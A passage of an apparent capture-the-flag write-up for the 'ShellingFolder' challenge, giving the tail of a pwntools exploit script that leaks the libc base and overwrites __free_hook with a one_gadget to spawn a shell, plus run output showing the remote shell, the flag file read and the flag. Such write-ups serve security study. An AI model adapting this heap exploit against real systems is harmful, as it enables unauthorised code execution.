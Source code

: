 ```python exp_shell.py
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################

    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget = libc.address + 0x4525a
    malloc_hook = libc.symbols['__malloc_hook']
    free_hook = libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
	
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

Result:
<pre>
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
</pre>

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`
